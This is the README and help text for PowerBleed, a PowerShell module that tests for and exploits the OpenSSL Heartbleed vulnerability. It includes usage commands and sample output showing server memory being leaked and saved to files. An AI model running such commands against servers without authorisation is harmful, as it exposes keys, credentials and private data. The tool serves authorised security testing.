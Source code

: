 ﻿
## PowerBleed

Powerbleed is a powershell module that allows you to check for the OpenSSL heartbeat
vulnerability, exploit it and write data to a file if desired.  Powerbleed defaults
to checking web based SSL/TLS on port 443, however will also support STARTTLS
based functionality for other protocols such as SMTP, IMAP, POP, and FTP.
Only a single heartbeat, and TLS connection is attempted by default after
heartbeat support is ascertained in the initial check.   This can be modified with the TLSTries,
and Heartbeats parameters.  By default, a random delay is introduced between heartbeats
which can be disabled if desired also.

**Author: Joff Thyer, April-May 2014
**Concept suggestion by Tim Tomes.

## Sponsors

[![Black Hills Information Security](http://www.blackhillsinfosec.com/_images/BHIS-Logo.png)](http://www.blackhillsinfosec.com)


<#
.SYNOPSIS

Exploit the OpenSSL 1.0.1 - 1.0.1f TLS HeartBeat vulnerability.
Author: Joff Thyer, April 2014
Concept suggestion by Tim Tomes.

.DESCRIPTION

Sends a malformed TLS heartbeat request as many times as you want to and write
the returned data into a file.

.PARAMETER Computername

Either a domain name or IP address can be provided.

.PARAMETER Port

The default TCP port is 443 however any other port may be specified
here.

.PARAMETER WriteFile

If this parameter is added, a file named "$Computername-port$Port-hb.dat" will be written
containing all of the binary data retrieved for a specific computer host.

.PARAMETER TLSTries

Perform a full TLS connection to the server this many times. The default
for this parameter is 1. More data may be leaked with continued connect
attempts.

.PARAMETER Heartbeats

For a single TLS connection, send this many heartbeat requests
and gather the resulting data.  This defaults to 1 also.

.PARAMETER HBLen

The length of the malformed heartbeat packet.  Defaults to 65535 bytes.

.PARAMETER NoRandomDelay

Disable the random delay between heartbeat requests.  The random
delay will be calculated between 0 and 1000 milliseconds.

.PARAMETER Timeout

The TCP timeout for a connect request.  Also this is the
read bytes timeout during the response reading.  This will
timeout if the server does not support the TLS heartbeat function.

.PARAMETER STLSProto

Use STARTTLS and define which protocol to support.
Choices are: IMAP, POP, SMTP, FTP.  Defaults to NONE.

.LINK

http://packetstormsecurity.com/files/126070/Heartbleed-Proof-Of-Concept.html

.NOTES

**Author: Joff Thyer, April 2014**
**Version: 20140501-1011** 
**Acknowledgments to Tim Tomes.**

.EXAMPLE

Usage example within CMD.EXE only.  Assumes that module is contained within
current working directory.

C:\>        powershell -command (Import-Module ./powerbleed.psm1); Test-Heartbleed -Computername 10.10.1.150 -Verbose


Powershell interactive usage examples:

PS C:\>         Import-Module ./powerbleed.psm1

PS C:\>         Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 5 -HBLen 32767 -Verbose

VERBOSE: Testing 10.10.1.150
VERBOSE: Sending Heartbeat support test packet
VERBOSE: Connection attempt number: 1
VERBOSE: Sending 5 TLS heartbeat packets
VERBOSE: :  2896 bytes returned from server. (2896 total bytes)
VERBOSE: : 29882 bytes returned from server. (32778 total bytes)
VERBOSE: :  8688 bytes returned from server. (41466 total bytes)
VERBOSE: : 24113 bytes returned from server. (65579 total bytes)
... some output omitted ...

Can also use the powershell pipeline to write bytes out to a file like this:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | `
              Select-Object -ExpandProperty Bytes | `
              Set-Content -Encoding Byte -Path ./file.txt

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | Select-Object -ExpandProperty Bytes | Set-Content -Encoding Byte -Path ./file.txt


Or as a one line command with no pipeline with the -WriteFile argument.

PS C:\blah> Test-Heartbleed -Computername 10.10.1.150 -WriteFile
PS C:\blah> ls

    Directory: C:\blah

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          5/1/2014  10:08 AM       5793 10.10.1.150-port443-hb.dat
-a---          5/1/2014  10:08 AM      16179 powerbleed.psm1



Other examples:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 3 -TLSTries 3 -NoRandomDelay -Verbose

PS C:\> Test-Heartbleed -Computername smtp.domain.tld -Port 25 -STLSProto SMTP -Verbose
VERBOSE: Testing smtp.domain.tld
VERBOSE: Sending Heartbeat support test packet
VERBOSE: smtp.domain.tld does not support TLS heartbeat.

Host                    Bytes                        Vulnerable String
----                    -----                        ---------- ------
smtp.domain.tld         {0}                          False

#>

